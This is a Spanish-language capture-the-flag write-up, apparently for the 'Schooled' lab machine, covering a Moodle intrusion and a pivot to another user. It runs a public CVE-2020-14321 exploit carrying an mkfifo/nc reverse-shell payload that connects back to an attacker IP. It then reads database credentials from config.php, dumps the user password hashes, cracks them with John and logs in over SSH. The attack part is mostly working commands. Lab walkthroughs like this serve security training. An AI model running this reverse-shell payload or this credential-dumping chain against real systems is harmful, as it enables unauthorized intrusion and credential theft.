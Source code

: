 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con moodle siendo professor {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Cargamos y lanzamos el exploit

    ```bash
    git clone https://github.com/lanzt/CVE-2020-14321
    cd CVE-2020-14321
    python3 CVE-2020-14321_RCE.py --cookie v6tp73g3lnflt81rvtn29jivj6 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f" http://moodle.schooled.htb/moodle
    ```

Y ganamos accesso al systema como el usuario **www**. No podemos lanzar una pseudo consola con tratamiento de la TTY pero seguimos investigando.

### User pivoting {-}

```bash
cd ..
ls
pwd
cd /usr/local/www/apache24/data/moodle
ls -l
cat config.php
```

Vemos un `config.php` con credenciales para mysql. 

```bash
which mysql
which mysqlshow
export $PATH
```

Aqui vemos que el PATH es muy pequeño. Copiamos nuestro PATH de la maquina de atacante y la ponemos en la victima

```bash
export PATH=/root/.local/bin:/home/s4vitar/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/go/bin/:/home/s4vitar/go-workspace/bin:/home/s4vitar/.fzf/bin
export $PATH
which mysqlshow
```

Ahora que tenemos acceso a la utilidad mysqlshow. Nos conectamos con las credenciales.

```bash
mysqlshow -umoodle -pPlaybookMaster2020
mysqlshow -umoodle -pPlaybookMaster2020 moodle
```

Vemos una table **mdl_user**, miramos su contenido con mysql

```bash
mysql -umoodle -pPlaybookMaster2020 -e "select * from mdl_user" moodle
mysql -umoodle -pPlaybookMaster2020 -e "select username,password,email from mdl_user" moodle
```

Copiamos el resultado en un fichero hashes y tratamos el fichero para poder crackearlo con John

#### Crackeando contraseñas con John {-}

```bash
cat hashes | awk '{print $1 ":" $2}'
cat hashes | awk '{print $1 ":" $2}' | sponge hashes
john --wordlist=/usr/share/wordlists/rockyout.txt hashes
```

Encontramos el hash del usuario admin. Pero este usuario no existe en el systema. Mirando el email vemos que el usuario es **jamie**

```bash
ssh jamie@10.10.10.234
```

Ya somos jamie y poder leer el user.txt
